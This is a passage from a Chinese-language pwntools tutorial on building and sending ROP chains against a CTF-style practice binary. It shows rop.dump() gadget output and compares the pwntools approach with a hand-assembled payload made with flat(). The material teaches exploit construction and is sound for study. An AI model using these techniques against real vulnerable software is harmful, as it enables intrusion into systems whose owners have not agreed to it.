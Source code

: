 ```python
rop.win()
```

如果你需要参数：

```python
rop.win(0xdeadc0de, 0xdeadbeef)
```

### 1x05 抛弃逻辑代码

```python
from pwn import *

elf = context.binary = ELF('./showcase')
rop = ROP(elf)

rop.win1(0x12345678)
rop.win2(0xdeadbeef, 0xdeadc0de)
rop.flag(0xc0ded00d)

print(rop.dump())
```

`dump()` 输出：

```
0x0000:         0x40118b pop rdi; ret
0x0008:       0x12345678 [arg0] rdi = 305419896
0x0010:         0x401102 win1
0x0018:         0x40118b pop rdi; ret
0x0020:       0xdeadbeef [arg0] rdi = 3735928559
0x0028:         0x401189 pop rsi; pop r15; ret
0x0030:       0xdeadc0de [arg1] rsi = 3735929054
0x0038:       'oaaapaaa' <pad r15>
0x0040:         0x40110c win2
0x0048:         0x40118b pop rdi; ret
0x0050:       0xc0ded00d [arg0] rdi = 3235827725
0x0058:         0x401119 flag
```

### 1x06 发送 ROP 链

```python
p.sendline(rop.chain())
```

### 1x07 对比

不使用 pwntools：

```python
payload = flat(
    POP_RDI,
    0xdeadc0de,
    elf.sym['win1'],
    POP_RDI,
    0xdeadbeef,
    POP_RSI,
    0x98765432,
    elf.sym['win2'],
    POP_RDI,
    0x54545454,
    elf.sym['flag']
)

p.sendline(payload)
```